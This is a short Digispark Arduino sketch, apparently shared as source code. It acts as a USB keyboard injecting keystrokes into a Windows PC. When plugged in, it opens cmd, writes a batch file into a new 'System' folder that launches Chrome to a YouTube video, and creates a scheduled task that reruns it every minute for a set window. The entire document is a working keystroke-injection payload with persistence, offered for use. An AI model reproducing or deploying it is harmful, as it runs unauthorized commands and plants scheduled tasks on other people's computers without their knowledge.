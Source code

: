 Runs a program every minute from XX:XX to XX:XX.

(Runs Once)

  #include "DigiKeyboard.h"

  void setup() {
    DigiKeyboard.sendKeyStroke(0);
    DigiKeyboard.delay(500);
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
    DigiKeyboard.delay(300);
    DigiKeyboard.println("cmd");
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(500);
    DigiKeyboard.println("cd / & mkdir System & cd system & echo start chrome https://www.youtube.com/watch?v=gR9-7SBZW9I > a.bat");
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(100);
    DigiKeyboard.println("schtasks /Create /SC MINUTE /TN test /TR C:/system/a.bat /ST 13:00 /ET 13:05 /K & exit");
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
  }
void loop() {
}